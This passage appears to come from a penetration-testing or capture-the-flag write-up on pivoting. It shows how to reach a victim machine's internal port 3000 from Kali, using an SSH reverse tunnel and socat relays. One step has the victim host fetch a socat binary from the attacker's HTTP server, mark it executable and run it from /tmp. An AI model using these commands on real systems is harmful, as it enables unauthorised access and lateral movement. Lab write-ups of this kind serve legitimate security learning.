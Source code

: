 ```
ssh manager@$VICTIM -R 3000:0.0.0.0:3000
```

**/etc/ssh/sshd\_config**

**If I had permission to this file I could modify these settings to see the website as localhost on Kali.**

```
AllowTcpForwarding yes
GatewayPorts yes
```

### Option 2 - Works&#x20;

**Kali 1**&#x20;

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v0.0.1/socat-linux-amd64
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp
wget http://$KALI:82/socat-linux-amd64
chmod +x socat-linux-amd64 
./socat-linux-amd64 TCP-LISTEN:8888,fork TCP:0.0.0.0:3000
```

**Kali 2**&#x20;

```
chmod +x socat-linux-amd64 
./socat-linux-amd64 TCP-LISTEN:9999,fork TCP:10.10.19.27:8888
```

<figure><img src="../../.gitbook/assets/image (1160).png" alt=""><figcaption></figcaption></figure>
